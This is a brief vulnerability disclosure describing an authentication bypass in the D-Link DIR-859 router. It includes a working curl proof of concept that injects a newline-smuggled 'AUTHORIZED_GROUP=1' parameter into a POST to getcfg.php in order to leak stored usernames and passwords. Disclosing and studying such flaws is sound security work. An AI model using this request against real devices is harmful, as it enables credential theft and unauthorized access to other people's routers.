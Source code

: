 #  ACL bypass Vulnerability in D-Link DIR-859

## 0x01 Vulnerability description

A  vulnerability in the D-Link DIR-859 router permits unauthorized individuals to bypass the authentication. An attacker can obtain a user name and password by forging a post request to the / getcfg.php page.

```
curl http://target/getcfg.php -d "SERVICES=DEVICE.ACCOUNT%0aAUTHORIZED_GROUP=1"
```

## 0x02 Affected version

``` 
D-Link DIR-859
```

## 0x03 PoC verification

When attempting to `curl http://target/getcfg.php -d "SERVICES=DEVICE.ACCOUNT" `without the specific string "0aAUTHORIZED_GROUP=1", the response return "Not authorized".

![image-20241210162753297](D:\edu\master\repo\CVE_Requests\D-Link\DIR-859\assets\image-20241210162753297.png)

However, by incorporating the string "0aAUTHORIZED_GROUP=1" into the command, the authentication check is successfully bypassed. This manipulation discloses entry information, including usernames and passwords, thereby granting an attacker the ability to perform further unauthorized operations.

![image-20241210162859904](D:\edu\master\repo\CVE_Requests\D-Link\DIR-859\assets\image-20241210162859904.png)

## 0x04 Acknowledgement

Shuanunio